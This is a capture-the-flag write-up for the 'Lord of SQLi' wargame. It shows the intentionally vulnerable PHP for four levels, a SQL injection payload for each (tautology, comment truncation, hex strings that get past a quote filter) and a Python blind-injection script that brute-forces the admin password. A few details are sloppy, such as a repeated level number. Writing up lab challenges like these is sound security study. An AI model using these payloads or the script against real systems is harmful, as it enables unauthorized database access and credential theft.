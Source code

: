 # Lord of Sqli - Writeups

# Level 1 - Gremlin

## Source Code

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

Query :  **select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'**

Here we don’t know the password . So here we just need the query to return 1 row . So we can give 

id as 1 and in the password field we can give ‘ OR ‘1’=’1 .

**Payload** : **id=1&pw=’ OR ‘1’=’1**

# Level 2 - Cobolt

## Source Code

```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

Query : **select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')**

Here we can the id returned from the query should be admin . So we can give id as admin’;— -

**Payload** : **id=admin’;— -**

# Level 3 - Goblin

## Source Code

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

Here quotes are being blocked .

```php
 if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
```

Here it the level will be solved if we fetch the row with id = admin but in the query the id is already set to guest, we cannot change that our injection is at no . So if we give something like -1 OR id=’admin’ . 2 rows will be returned the row with id = guest and id = admin . But here quotes in blocked . But fortunately mysql supports strings to be given in hex without quotes .

**Payload : 1 OR id=0x61646D696E;-- -**

# Level 3 - Orc




```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```


Here we can get the actual password using a blind sql Injection . 



## Exploit Script 



```python
import requests

letters = 'abcdefghijklmnopqrstuvwxyzABCDEFGJIJKLMNOPQRSTUVWXYZ1234567890'

url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
h = {
    "Cookie" : 'PHPSESSID=r4j44kshvu8qe7nk1kfaq1bddb'
}
pw = ''
index = 1
for i in range(100):
    q = f"?pw=' or id='admin' and length(pw)={str(i)};-- -"
    r = requests.get(url+q,headers=h)
    if 'Hello admin' in r.text:
        print(f'Length of password : {str(i)}')
        break


while 1:
    for i in letters:
        q = f"?pw='  or id='admin' and pw like '{pw}{i}%';-- -"
        r = requests.get(url+q,headers=h)
        if 'Hello admin' in r.text:
            index += 1
            pw += i
            break
        print(q)
        print(f'Password : {pw}{i}',end='\r')
```

